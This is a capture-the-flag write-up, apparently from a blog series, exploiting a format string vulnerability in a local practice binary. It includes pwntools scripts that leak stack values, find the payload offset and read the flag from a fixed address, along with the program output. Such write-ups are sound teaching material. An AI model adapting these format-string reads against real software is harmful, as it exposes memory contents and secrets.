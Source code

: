 ```yaml
---
title: "Format String - Read"
date: 2019-06-19
description: "format string vulnerability 1"
tags: ["Binary Exploitation Series"]
type: post
weight: 20
showTableOfContents: true
---
```


# Arbitrary Read 

---

# ⚖️ Challenge Write-up

# General Analysis
    
![Untitled.png](https://hackmd.io/_uploads/ry-Y1nIm6.png)
    

---

- Checking for Format String Vulnerability
    
![Untitled 1.png](https://hackmd.io/_uploads/ry6OynU76.png)
    

# Starting Exploit to find the address leak
    
```python
#!/usr/bin/python3
    
from pwn import *
    
context.log_level = 'error'
for i in range(1,50):
  io = process('./fmt_read')
  payload = f'%{i}$p'
  io.sendline(payload)
  print(io.recvall())
  io.close()
```
    
using the above we will be able to get address leaks from stack
    
# Pulling out the password from the leak

```markdown
Enter Password - Pa$$w0rd_1s_0n_Th3_St4ck
What you are looking for is here - 0x404080
Enter String - %p.%p
0xa.(nil)
```

- So the following is still vulnerable to format string, and we also get an address

- Second Exploit

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

for i in range(1,50):
    io = process('./fmt_read')
    io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
    payload = f'AAAAAAAA.%{i}$p'
    #payload = f'%{i}$p'
    io.sendline(payload)
    print(io.recvall(),i)
    io.close()
```

```markdown
b'Enter Password - What you are looking for is here - 0x404080\nEnter String - AAAAAAAA.0x4141414141414141' 16
```

# Final Exploit

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'error'

io = process('./fmt_read')
io.sendline('Pa$$w0rd_1s_0n_Th3_St4ck')
payload = b'%17$sAAA' + p64(0x404080)
io.sendline(payload)
print(io.recvall())
io.close()
```

# Explanation

```markdown
After we have found where flag's address value is stored, we read the value in the form of string 
from the address using the given exploit.
```

# Output

```markdown
b'Enter Password - What you are looking for is here - 0x404080\nEnter String - FLAG{F0rm4t_Str1ngs_4re_C00l}AAA\x80@@'
```